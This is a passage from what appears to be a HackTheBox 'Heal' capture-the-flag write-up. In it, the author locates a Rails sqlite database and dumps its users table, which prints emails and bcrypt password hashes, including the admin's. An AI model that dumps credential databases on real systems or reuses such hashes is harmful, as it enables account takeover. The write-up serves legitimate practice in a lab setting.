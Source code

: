 Suggestions from `ChatGPT`

![9.png](Heal/images/9.png)

In `config/database.yml` I found: `database: storage/development.sqlite3`, it was a mess and finally this is the result:

```zsh
❯ sqlite3 heal.sqlite3
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
ar_internal_metadata  token_blacklists    
schema_migrations     users               
sqlite> select * from users;
1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|2024-09-27 07:49:31.614858|2024-09-27 07:49:31.614858|Administrator|ralph|1
2|11@11.11|$2a$12$4M26GREHhkPjFZqNbV1aqemhYeiEoO1xwBPW.iRSbgJxhmnp/k3Nu|2024-12-20 15:43:49.319920|2024-12-20 15:43:49.319920|11|11|0
3|test@test.test|$2a$12$omhxCyWvynOeh7RSgJaKUO7h024ZSDUDqSEzsgZ5LVrfTKdR.qu/q|2024-12-20 17:16:06.120235|2024-12-20 17:16:06.120235|test|test|0
4|atreus@atreus.com|$2a$12$Idm2JFSmNqYXYYE1.k5ggeWei49QzfDiFG/laob7Tj3XrpvRxhm4m|2024-12-20 20:06:54.081985|2024-12-20 20:06:54.081985|atreus|atreus|0
5|t2p@heal.htb|$2a$12$cbowyND08zm9pX4dx/.wV.8kuaWdYq5Hlh8CYukYXT3g1kW4Q4eM2|2024-12-21 01:38:11.749980|2024-12-21 01:38:11.749980|t2pp2p|t2pp2p|0
6|gyatt@sigma.com|$2a$12$6ggdfoDj.aMXowY7pO3GjelmpY4iAw83YEawDkxljxhNDWUZRVwwO|2024-12-21 02:14:35.255985|2024-12-21 02:14:35.255985|skbi|e|0
7|e@e.e|$2a$12$j0OQu4I1bgOfBR8744SCnOvcs8o.UCjiVHVPEwjI2n.rfw1.jjiVu|2024-12-21 02:47:04.187889|2024-12-21 02:47:04.187889|e|r|0
```
